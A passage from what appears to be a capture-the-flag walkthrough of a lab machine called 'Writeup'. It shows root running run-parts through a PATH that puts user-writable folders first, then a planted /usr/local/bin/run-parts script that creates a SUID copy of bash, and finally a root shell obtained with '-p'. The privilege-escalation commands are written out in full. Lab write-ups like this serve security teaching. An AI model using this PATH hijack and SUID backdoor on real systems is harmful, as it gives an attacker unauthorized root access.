 

    2019/06/17 01:37:09 CMD: UID=0    PID=3253   | sshd: [accepted]
    2019/06/17 01:37:09 CMD: UID=0    PID=3254   | sshd: [accepted]  
    2019/06/17 01:37:15 CMD: UID=0    PID=3255   | sshd: jkr [priv]  
    2019/06/17 01:37:15 CMD: UID=0    PID=3256   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
    2019/06/17 01:37:16 CMD: UID=0    PID=3257   | run-parts --lsbsysinit /etc/update-motd.d
    2019/06/17 01:37:16 CMD: UID=0    PID=3258   | /bin/sh /etc/update-motd.d/10-uname
    2019/06/17 01:37:16 CMD: UID=0    PID=3259   | sshd: jkr [priv]  
    2019/06/17 01:37:16 CMD: UID=1000 PID=3260   | -bash 
    2019/06/17 01:37:16 CMD: UID=1000 PID=3261   | -bash 
    2019/06/17 01:37:16 CMD: UID=1000 PID=3262   | -bash 
    2019/06/17 01:37:16 CMD: UID=1000 PID=3263   | -bash 
    2019/06/17 01:37:16 CMD: UID=1000 PID=3264   | -bash 



A few things happen there, but the most interesting is the three
commands that are initiated with
`sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new`.

### Hijack run-parts

When a user logs in, root runs `sh`, which runs `/usr/bin/env`, which
provides a specific path and runs `run-parts` on the `update-motd.d`
folder. I'll immediately notice that the `$PATH` includes at the front
the two folders I can write to.

I will write a script to `/usr/local/bin/run-parts`, make sure it's
executable, and then `ssh` in again:



    jkr@writeup:~$ echo -e '#!/bin/bash\n\ncp /bin/bash /bin/0xdf\nchmod u+s /bin/0xdf' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
    jkr@writeup:~$ cat /usr/local/bin/run-parts
    #!/bin/bash

    cp /bin/bash /bin/0xdf
    chmod u+s /bin/0xdf



Now I can `ssh` in, and my new backdoored shell is waiting:



    jkr@writeup:~$ ls -l /bin/0xdf
    -rwsr-xr-x 1 root root 1099016 Jun 17 02:29 /bin/0xdf



Because it's `bash` and it drops suid privs by default, I'll run with
`-p` to keep root:



    jkr@writeup:~$ 0xdf -p
    0xdf-4.4# id
    uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
